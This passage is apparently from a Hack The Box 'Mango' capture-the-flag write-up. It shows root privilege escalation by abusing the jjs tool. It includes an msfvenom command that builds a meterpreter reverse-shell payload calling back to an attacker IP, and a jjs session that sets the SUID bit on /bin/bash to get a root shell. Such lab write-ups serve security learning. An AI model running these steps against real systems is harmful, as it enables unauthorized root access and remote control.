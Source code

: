A quick search on [GTFObins](https://gtfobins.github.io/gtfobins/jjs/) shows that we can execute commands with `jjs`.

I can quickly get the root flag with:

![](/assets/images/htb-writeup-mango/root1.png)

Or get a proper shell by generating a meterpreter shell with the `PrependSetuid` option:

```
root@kali:~/htb/mango# msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o met LHOST=10.10.14.11 LPORT=4444 PrependSetuid=true
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 146 bytes
Final size of elf file: 266 bytes
Saved as: met
```

![](/assets/images/htb-writeup-mango/root2.png)

![](/assets/images/htb-writeup-mango/root3.png)

Or, a faster way to get a root shell is to make bash SUID:

```
admin@mango:/home/admin$ jjs
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> Java.type('java.lang.Runtime').getRuntime().exec('chmod u+s /bin/bash').waitFor()
0
jjs> 
admin@mango:/home/admin$ /bin/bash -p
bash-4.4# id
uid=4000000000(admin) gid=1001(admin) euid=0(root) groups=1001(admin)
```